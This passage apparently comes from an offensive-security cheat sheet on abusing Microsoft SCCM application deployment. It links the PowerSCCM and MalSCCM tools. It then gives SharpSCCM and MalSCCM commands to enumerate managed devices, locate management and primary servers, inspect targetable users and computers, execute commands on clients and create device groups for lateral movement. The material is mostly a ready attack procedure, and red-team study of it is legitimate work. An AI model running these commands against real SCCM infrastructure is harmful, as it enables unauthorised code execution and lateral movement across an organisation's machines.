# Deployment - SCCM

> SCCM is a solution from Microsoft to enhance administration in a scalable way across an organisation.

## SCCM Application Deployment

> Application Deployment is a process that involves packaging software applications and distributing them to selected computers or devices within an organization

**Tools**:

* [PowerShellMafia/PowerSCCM - PowerShell module to interact with SCCM deployments](https://github.com/PowerShellMafia/PowerSCCM)
* [nettitude/MalSCCM - Abuse local or remote SCCM servers to deploy malicious applications to hosts they manage](https://github.com/nettitude/MalSCCM)

**Exploitation**:

* Using **SharpSCCM**

  ```ps1
  .\SharpSCCM.exe get devices --server <SERVER8NAME> --site-code <SITE_CODE>
  .\SharpSCCM.exe <server> <sitecode> exec -d <device_name> -r <relay_server_ip>
  .\SharpSCCM.exe exec -d WS01 -p "C:\Windows\System32\ping 10.10.10.10" -s --debug
  ```

* Compromise client, use locate to find management server

    ```ps1
    MalSCCM.exe locate
    ```

* Enumerate over WMI as an administrator of the Distribution Point

    ```ps1
    MalSCCM.exe inspect /server:<DistributionPoint Server FQDN> /groups
    ```

* Compromise management server, use locate to find primary server
* Use `inspect` on primary server to view who you can target

    ```ps1
    MalSCCM.exe inspect /all
    MalSCCM.exe inspect /computers
    MalSCCM.exe inspect /primaryusers
    MalSCCM.exe inspect /groups
    ```

* Create a new device group for the machines you want to laterally move too

    ```ps1
    MalSCCM.exe group /create /groupname:TargetGroup /grouptype:device
    MalSCCM.exe inspect /groups
    ```
